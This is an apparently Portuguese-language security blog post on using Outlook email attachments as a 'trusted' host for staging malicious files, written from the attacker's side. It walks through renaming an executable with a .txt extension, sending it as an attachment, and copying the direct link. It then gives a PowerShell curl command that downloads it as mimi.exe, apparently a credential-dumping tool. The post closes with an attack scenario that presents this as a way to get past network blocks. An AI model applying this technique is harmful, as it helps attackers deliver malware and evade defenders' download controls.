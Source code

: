 ```yaml
---
layout: single
classes: wide
title:  "Utilizando o Outlook para armazenar arquivos maliciosos"
---
```

## Descrição
Conseguimos através do anexo de e-mail do Outlook armazenar arquivos maliciosos.
Isso nos permite realizar o upload/download de arquivos maliciosos através de um “local confiável” por se tratar de um subdomínio do Outlook.


## Passos para reproduzir
Primeiramente devemos modificar nosso arquivo malicioso adicionando uma extensão de texto (.txt)

No Linux podemos incluir essa extensão de várias formas, uma delas é utilizar o comando **cp** para cria uma cópia do arquivo adicionando a extensão de texto, nesse caso ficaria algo como: **arquivo.exe.txt**

![bh-Look](../assets/img/2021-12-06/IMG01.png)

Após prepararmos o arquivo malicioso podemos abrir o Outlook e irmos na opção “Nova Mensagem” e nela anexar nosso arquivo modificado e enviar para um qualquer destino (*nesse exemplo estamos encaminhando para um endereço de e-mail temporário*) pois o que nos interessa é o link direto do arquivo.

![bh-Look](../assets/img/2021-12-06/IMG03.png)

![bh-Look](../assets/img/2021-12-06/IMG02.png)

![bh-Look](../assets/img/2021-12-06/IMG04.png)

Depois de enviarmos vamos em **Itens Enviados** e baixar o arquivo em anexo para obter o link direto do arquivo, para isso vamos em **Downloads do Navegador > Botão Direito >  Copiar link.**

![bh-Look](../assets/img/2021-12-06/IMG07.png)

![bh-Look](../assets/img/2021-12-06/IMG08.png)

Com o "link direto" podemos realizar o download através do PowerShell do Windows utilizando o comando **Curl**, basta que utilizemos a opção **-o** de output para criar uma saida do arquivo original (*um executável*), nesse caso ficaria algo como: `curl "link_do_arquivo.com.br" -o mimi.exe`

![bh-Look](../assets/img/2021-12-06/IMG09.png)


## Prova de Conceito (PoC)

![bh-Look](../assets/img/2021-12-06/IMG10.png)


## Observações
* Não recomendamos realizar o upload de arquivos executáveis (.exe) pois o outlook detecta como arquivo malicioso e impede que o download seja realizado.
* Arquivos muito grandes também são bloqueados por conta da restrição de tamanho por parte do anexo.
* Um outro ponto interessante é que o arquivo após enviado tem um prazo de validade que vária entre 10 à 15 minutos

## Cénario de Ataque
Esse tipo de técnica é útil em ambientes internos (externos também) onde geralmente existem bloqueios em determinadas origens, e por se tratar de um “domínio confiável” podemos realizar o download de forma segura.
